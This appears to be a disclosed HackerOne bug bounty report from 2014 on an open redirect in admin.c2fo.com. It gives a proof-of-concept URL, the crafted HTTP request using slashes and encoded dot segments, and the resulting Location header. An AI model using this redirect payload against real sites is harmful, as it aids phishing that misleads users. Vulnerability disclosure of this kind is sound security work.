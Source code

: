 # [admin.c2fo.com] Open Redirect

## Report Details
- **Report ID**: 39198
- **URL**: https://hackerone.com/reports/39198
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2014-12-12T20:54:33.762Z
- **Disclosed**: 2016-10-29T16:08:53.614Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: c2fo

## Vulnerability Information
PoC (FireFox):
https://admin.c2fo.com///www.google.com/%2e%2e

HTTP Request:
GET ///www.google.com/%2e%2e HTTP/1.1
Host: admin.c2fo.com

HTTP Response:
Location: //www.google.com/%2e%2e/


## Attachments
No attachments

